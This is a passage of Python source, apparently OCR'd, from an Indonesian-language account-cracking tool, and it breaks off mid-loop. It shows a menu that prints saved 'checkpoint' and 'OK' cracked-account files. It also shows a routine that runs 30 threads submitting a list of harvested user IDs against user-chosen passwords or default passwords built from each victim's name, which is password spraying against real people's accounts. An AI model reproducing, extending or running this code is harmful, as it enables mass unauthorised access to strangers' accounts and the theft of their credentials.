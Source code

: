     print(f"{P}[2] Cek results ok")
    print(f"{P}[0] Back")
    print(f"{B} | ")
    _pil3h=input(f"{P}[•] Pilih : {B}")
    if _pil3h in ["1","01"]:
        if len(hsl_cp) != 0:
            print(f"{B} | ")
            print(f"{P}[•]{M} Results cp{B}")
            os.system("cat CP/%s.json"%(tanggal))
        else:print(f"{M}[•] Tidak ada hasil")
    elif _pil3h in ["2","02"]:
        if len(hsl_ok) != 0:
            print(f"{B} | ")
            print(f"{P}[•]{I} Results ok")
            os.system("cat OK/%s.json"%(tanggal))
        else:print(f"\n{P}[•]{M} Tidak ada hasil")
    elif _pil3h in ["0","00"]:
        menu()
    else:print(f"{P}[•]{M} Pilian tidak ada")


def fii_xd():
	kone()
	print(f"{B} | ")
	print(f"{B} | ")
	fiisayangwidiya =input(f"{P}[•] Pilih : {B}")
	if fiisayangwidiya in [""]:
		print(f"{B} | ")
		print(f"{P}[•]{M} Pilihan tidak boleh kosong");exit()
	elif fiisayangwidiya in ["1","01"]:
		print(f"{P}[•] Tampilan kan opsi akun chek point {B}Y/t")
		jalan(f"{P}[•]{M} Terkadang jika menampilkan opsi jarang dapet akun !!!")
		print(f"{B} | ")
		_checkoptions_=input(f"{P}[•] Pilih : {B}")
		if _checkoptions_ in ["y","Y"]:
			try:
				_key = "anjink"
				key = "anjink" #----- jangan di ubah
				if _key in key:
					print(f"{B} | ")
					print(f"{P}[•] Crack menggunakan password manual/default {B}M/D")
					print(f"{B} | ")
					ter =input(f"{P}[•] Pilih : {B}")
					if ter in ["m","M"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							print(f"{B} | ")
							print(f"{B} | ")
							print(f"{P}[•] Contoh password : {B}sayang,anjing,kontol")
							print(f"{B} | ")
							asu = input(f"{P}[•] Buat sandi : {B}").split(",")
							if len(asu) =="":
								print(f"{B} | ")
								print(f"{P}[•]{M} Sandi tidak boleh kosong");exit()
							started()
							for user in id:
								uid, name = user.split("<=>")
								coeg.submit(api, uid, asu)
						exit()
					elif ter in ["d","D"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							started()
							for user in id:
								uid, name = user.split("<=>")
								frist=name.split(" ")